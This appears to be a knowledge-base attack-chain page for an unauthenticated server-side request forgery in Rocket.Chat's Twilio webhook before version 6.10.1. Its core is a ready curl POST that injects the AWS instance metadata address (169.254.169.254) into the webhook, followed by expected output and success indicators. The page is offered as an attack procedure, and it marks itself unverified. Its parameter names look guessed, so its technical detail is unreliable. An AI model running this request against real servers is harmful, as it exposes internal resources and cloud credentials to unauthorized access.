

# Unauthenticated SSRF via Rocket.Chat Twilio Webhook to Access Internal Resources

Multi-stage attack chain demonstrating a complete attack workflow targeting the SSRF vulnerability in Rocket.Chat versions before 6.10.1.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Rocket.Chat version < 6.10.1
- Twilio integration enabled
- Web platform with exposed webhook endpoint

### Initial Access Requirements

- No credentials required (unauthenticated)
- Direct network access to the public-facing Rocket.Chat instance
- No prior access needed

## Detailed Attack Procedures

### Step 1: Exploit SSRF Vulnerability
procedure: [[procedures/Exploit-SSRF-in-Rocket.Chat-Twilio-Webhook]]

**Objective**: Force the Rocket.Chat server to make unauthorized requests to internal resources via the Twilio webhook endpoint, enabling data exfiltration or reconnaissance.

**Instructions**: Identify the Twilio webhook URL (typically /hooks/twilio or similar in Rocket.Chat). Craft a POST request mimicking a Twilio webhook but with a payload that triggers SSRF by injecting an internal URL into a parameter processed by the endpoint. Use [[commands/curl-trigger-ssrf]] to send the request:

```bash
curl -X POST https://target.com/hooks/twilio \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "AccountSid=AC123&From=+1234567890&To=+0987654321&Body=SSRF%20test&Url=http://169.254.169.254/latest/meta-data/"
```

Monitor the response or server logs for leaked internal data. If successful, the server will fetch the internal URL (e.g., AWS metadata) and potentially include it in the response.

**Expected Output**: HTTP response containing data from the internal resource, such as instance metadata or internal service responses.

**Success Indicators**:
- Response includes internal network data (e.g., IP addresses, metadata)
- Server-side logs show requests to internal endpoints
- No authentication errors; request accepted unauthenticated

## Attack Chain Summary

### Key Achievements

1. Unauthenticated access to internal resources via SSRF
2. Potential exposure of sensitive network information
3. High-impact reconnaissance without direct server compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-10-01T12:00:00Z*
